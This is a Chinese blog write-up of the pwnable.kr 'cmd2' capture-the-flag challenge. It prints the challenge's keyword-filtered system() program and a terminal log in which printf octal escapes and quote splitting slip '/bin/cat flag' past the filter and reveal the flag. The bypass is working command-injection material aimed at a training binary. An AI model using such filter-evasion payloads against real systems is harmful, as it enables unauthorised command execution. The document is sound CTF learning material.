


<!--yml
category: 未分类
date: 2022-04-26 14:31:22
-->

# PWN cmd2 [pwnable.kr]CTF writeup题解系列12_3riC5r的博客-CSDN博客

> 来源：[https://blog.csdn.net/fastergohome/article/details/103799281](https://blog.csdn.net/fastergohome/article/details/103799281)





涉及到shell命令绕过到知识

```
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "=")!=0;
	r += strstr(cmd, "PATH")!=0;
	r += strstr(cmd, "export")!=0;
	r += strstr(cmd, "/")!=0;
	r += strstr(cmd, "`")!=0;
	r += strstr(cmd, "flag")!=0;
	return r;
}

extern char** environ;
void delete_env(){
	char** p;
	for(p=environ; *p; p++)	memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
	delete_env();
	putenv("PATH=/no_command_execution_until_you_become_a_hacker");
	if(filter(argv[1])) return 0;
	printf("%s\n", argv[1]);
	system( argv[1] );
	return 0;
} 
```

不能用下面这些单词

    r += strstr(cmd, "=")!=0;
    r += strstr(cmd, "PATH")!=0;
    r += strstr(cmd, "export")!=0;
    r += strstr(cmd, "/")!=0;
    r += strstr(cmd, "`")!=0;
    r += strstr(cmd, "flag")!=0;

那就绕过呗，大家可以参考

[https://www.runoob.com/linux/linux-shell-printf.html](https://www.runoob.com/linux/linux-shell-printf.html)

操作过程我贴出来

```
root@mypwn:/ctf/work/pwnable.kr# ssh cmd1@pwnable.kr -p2222
cmd1@pwnable.kr's password: 
 ____  __    __  ____    ____  ____   _        ___      __  _  ____  
|    \|  |__|  ||    \  /    ||    \ | |      /  _]    |  |/ ]|    \ 
|  o  )  |  |  ||  _  ||  o  ||  o  )| |     /  [_     |  ' / |  D  )
|   _/|  |  |  ||  |  ||     ||     || |___ |    _]    |    \ |    / 
|  |  |  `  '  ||  |  ||  _  ||  O  ||     ||   [_  __ |     \|    \ 
|  |   \      / |  |  ||  |  ||     ||     ||     ||  ||  .  ||  .  \
|__|    \_/\_/  |__|__||__|__||_____||_____||_____||__||__|\_||__|\_|

- Site admin : daehee87@gatech.edu
- IRC : irc.netgarage.org:6667 / #pwnable.kr
- Simply type "irssi" command to join IRC now
- files under /tmp can be erased anytime. make your directory under /tmp
- to use peda, issue `source /usr/share/peda/peda.py` in gdb terminal
Last login: Wed Jan  1 20:20:32 2020 from 120.84.12.64
cmd1@prowl:~$ $(printf \\057bin\\057cat) fl""ag
/bin/cat: flag: Permission denied
cmd1@prowl:~$ printf "%d %s\n" 1 "abc"
1 abc
cmd1@prowl:~$ $(printf "%d %s\n" 1 "abc")
1: command not found
cmd1@prowl:~$ $(printf "%s %s\n" "ls" "abc")
ls: cannot access 'abc': No such file or directory
cmd1@prowl:~$ $(echo \\057bin\\057cat) fl""ag
\057bin\057cat: command not found
cmd1@prowl:~$ cmd2 '$(printf \\057bin\\057cat) fl""ag'
cmd2: command not found
cmd1@prowl:~$ ./cmd2 '$(printf \\057bin\\057cat) fl""ag'
-bash: ./cmd2: No such file or directory
cmd1@prowl:~$ ls -l
total 20
-r-xr-sr-x 1 root cmd1_pwn 8513 Jul 14  2015 cmd1
-rw-r--r-- 1 root root      320 Mar 23  2018 cmd1.c
-r--r----- 1 root cmd1_pwn   48 Jul 14  2015 flag
cmd1@prowl:~$ exit
logout
Connection to pwnable.kr closed.
root@mypwn:/ctf/work/pwnable.kr# ssh cmd2@pwnable.kr -p2222
cmd2@pwnable.kr's password: 
 ____  __    __  ____    ____  ____   _        ___      __  _  ____  
|    \|  |__|  ||    \  /    ||    \ | |      /  _]    |  |/ ]|    \ 
|  o  )  |  |  ||  _  ||  o  ||  o  )| |     /  [_     |  ' / |  D  )
|   _/|  |  |  ||  |  ||     ||     || |___ |    _]    |    \ |    / 
|  |  |  `  '  ||  |  ||  _  ||  O  ||     ||   [_  __ |     \|    \ 
|  |   \      / |  |  ||  |  ||     ||     ||     ||  ||  .  ||  .  \
|__|    \_/\_/  |__|__||__|__||_____||_____||_____||__||__|\_||__|\_|

- Site admin : daehee87@gatech.edu
- IRC : irc.netgarage.org:6667 / #pwnable.kr
- Simply type "irssi" command to join IRC now
- files under /tmp can be erased anytime. make your directory under /tmp
- to use peda, issue `source /usr/share/peda/peda.py` in gdb terminal
Last login: Wed Jan  1 20:25:56 2020 from 128.61.240.205
cmd2@prowl:~$ ./cmd2 '$(printf \\057bin\\057cat) fl""ag'
$(printf \\057bin\\057cat) fl""ag
FuN_w1th_5h3ll_v4riabl3s_haha
cmd2@prowl:~$ 
```

这方面我也是去查了一下资料，具体到各种不同到绕过策略，还是要自己去多尝试。